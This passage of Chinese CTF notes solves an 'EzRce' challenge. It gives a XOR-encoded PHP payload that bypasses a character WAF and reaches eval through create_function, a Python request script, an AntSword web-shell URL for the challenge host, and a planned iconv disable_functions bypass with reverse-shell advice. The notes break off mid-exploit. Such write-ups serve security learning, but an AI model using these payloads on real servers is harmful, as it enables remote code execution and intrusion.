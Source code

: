 			          "settings": {
			              "view options": {
			                  "client": "1",
			                  "escape": ejs_escape,
			              }
			          }
			      },
			  )
			  print(r.text)
			  ```
- # EzRce
  collapsed:: true
	- 思路
		- 利用异或绕过WAF
		- 利用create_function实现eval RCE
		- 打`disable_functions`: [[CTF/PHP/绕过disable_function]]
	- 绕过WAF
		- fuzz出所有可用的字符，然后异或绕过
		- 自用模块
			- ```python
			  
			  def waf(s):
			      return all(c in valid_chars for c in s)
			  
			  
			  xor = encoder.XorStringPairFinder(init=ord("@"), filter_func = waf)
			  xor.find_str("}eval($_POST[data]);#")
			  # ('@@V@@vev,e%vv%@V@!v^|', '=% !,^A)|*v"-A!"!|_e_')
			  ```
		- 最后payload
			- ```python
			  payload = """
			  ('@$@@V@#@#@@V@@@'^'#V%!"%|&V.#")/.')('',('@@V@@vev,e%vv%@V@!v^|'^'=% !,^A)|*v"-A!"!|_e_'));
			  """.strip()
			  ```
	- RCE
		- ```python
		  # create_function('','}eval($_POST[data]);#')
		  payload = """
		  ('@$@@V@#@#@@V@@@'^'#V%!"%|&V.#")/.')('',('@@V@@vev,e%vv%@V@!v^|'^'=% !,^A)|*v"-A!"!|_e_'));
		  """.strip()
		  r = base_post(url, params = {
		      "data": payload
		  }, data = {
		      "data": "highlight_file('waf.php');"
		  })
		  with open("test.html", "w") as f:
		      f.write(r.text) 
		  print(r.url)
		  print(r.text)
		  ```
		- 蚁剑直连，密码data
			- ```
			  http://aqooq1tqahm40phupjgdpccls.node.game.sycsec.com/?data=%28%27%40%24%40%40V%40%23%40%23%40%40V%40%40%40%27%5E%27%23V%25%21%22%25%7C%26V.%23%22%29%2F.%27%29%28%27%27%2C%28%27%40%40V%40%40vev%2Ce%25vv%25%40V%40%21v%5E%7C%27%5E%27%3D%25+%21%2C%5EA%29%7C%2Av%22-A%21%22%21%7C_e_%27%29%29%3B
			  ```
	- disable_functions
		- 打iconv绕过，参考： ((64f02a3a-0eae-4d6c-8b73-8b34d2a17473))
		- 注意这里貌似有缓存机制，不会重新加载exp.so, 建议直接反弹shell
		- exp
			- ```python